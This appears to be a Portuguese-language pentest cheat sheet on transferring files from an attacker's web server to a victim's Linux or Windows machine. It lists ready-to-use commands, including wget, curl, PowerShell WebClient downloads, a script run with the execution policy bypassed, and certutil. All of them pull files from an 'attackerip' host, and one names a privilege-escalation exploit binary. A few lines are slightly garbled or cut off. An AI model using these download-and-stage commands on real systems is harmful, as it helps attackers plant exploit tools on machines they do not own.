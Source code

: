```yaml
---
tags:
  - WEB
  - Pentest
---
```

# LINUX 
Primeiramente criamos um servidor web em nossa própria máquina; 
```shell
python -m SimpleHTTPServer <port>
```

Então colocamos nosso arquivo no servidor web

```shell
wget http://attackerip/file wget -Uri http://teuip/arquivo -OutFile arquivo.exe -Verbose 

curl http://attackerip/file > file
```
# WINDOWS

Primeiramente criamos um servidor web em nossa própria máquina; 
```shell
python -m SimpleHTTPServer <port>
```
## Opção 1:
Então colocamos nosso arquivo no servidor web; 

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://attackerip/WindowsEnum/WindowsEnum.ps1','C:\Users\Public\Downloads\WindowsEnu 
```
## Opção 2: 
Executamos os seguintes comandos no sistema da vítima, respectivamente; 

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://attackerip:port/Chimichurri.exe" >>wget.ps1 
echo $file = "ms10-059-exploit.exe" >>wget.ps1 
echo $webclient.DownloadFile($url,$file) >>wget.ps1 
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 
```
## Opção 3:
Então colocamos nosso arquivo no servidor web;
```shell
certutil.exe -urlcache -split -f "http://attackerip/file.exe"
```

